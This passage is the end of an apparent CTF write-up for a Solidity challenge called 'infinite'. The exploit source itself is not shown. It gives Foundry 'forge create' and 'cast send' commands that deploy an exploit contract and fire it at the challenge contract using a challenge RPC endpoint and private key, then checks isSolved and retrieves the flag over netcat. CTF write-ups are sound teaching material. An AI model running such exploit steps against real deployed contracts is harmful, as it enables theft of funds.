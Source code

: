 Then just deploy it and run it :

```
# forge create ./src/exploit.sol:infiniteExploit -r http://146.148.125.86:60081/eba8a52e-c839-4091-b2f8-4b0b0428b727 --private-key 0x7a367e755193fe4dd6dd45e54005192978d8127a04145bed6d57659be717cbbc
[⠃] Compiling...
[⠒] Compiling 1 files with 0.8.20
[⠘] Solc 0.8.20 finished in 1.70s
Compiler run successful!
Deployer: 0xd079b089e18dA8570a34C9fD34b587fa6Eb01835
Deployed to: 0xABF7d60E02BA5FC4dA72EE1c6ed323e9078f8A91
Transaction hash: 0x8f719aa97bcabf7eb0b783bd5efec377df53a02ab4e9e798bac05202a56f9ae9
```

```
# cast send 0xABF7d60E02BA5FC4dA72EE1c6ed323e9078f8A91 "exploit(address)" 0x31e026cee3c39400347d490c5C57E7666B14093c -r http://146.148.125.86:60081/eba8a52e-c839-4091-b2f8-4b0b0428b727 --private-key 0x7a367e755193fe4dd6dd45e54005192978d8127a04145bed6d57659be717cbbc
```

Finally, check if we have solved the challenge :

```
# cast call 0x31e026cee3c39400347d490c5C57E7666B14093c "isSolved()(bool)" -r http://146.148.125.86:60081/eba8a52e-c839-4091-b2f8-4b0b0428b727
true
```

### Flag :

```
# nc infinite.chal.crewc.tf 60001
1 - launch new instance
2 - kill instance
3 - get flag
action? 3
ticket please: REDACTED
This ticket is your TEAM SECRET. Do NOT SHARE IT!
crew{inf1nt3_c4n9i3s_1nfinit3_r3s9ect}
```